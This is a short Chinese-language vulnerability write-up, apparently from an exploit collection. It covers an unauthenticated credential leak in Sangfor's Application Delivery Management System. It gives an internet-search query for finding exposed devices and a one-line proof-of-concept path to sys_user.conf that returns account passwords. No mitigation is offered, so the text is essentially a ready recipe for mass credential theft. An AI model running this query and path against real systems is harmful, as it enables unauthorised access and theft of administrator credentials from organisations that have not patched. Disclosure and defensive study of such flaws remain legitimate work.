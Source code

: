 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646105000489-5727976c-4824-4f44-9c53-729cd9410f93.png)

验证POC

```javascript
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646105017682-f6969569-17c3-4386-aa54-792537cab576.png)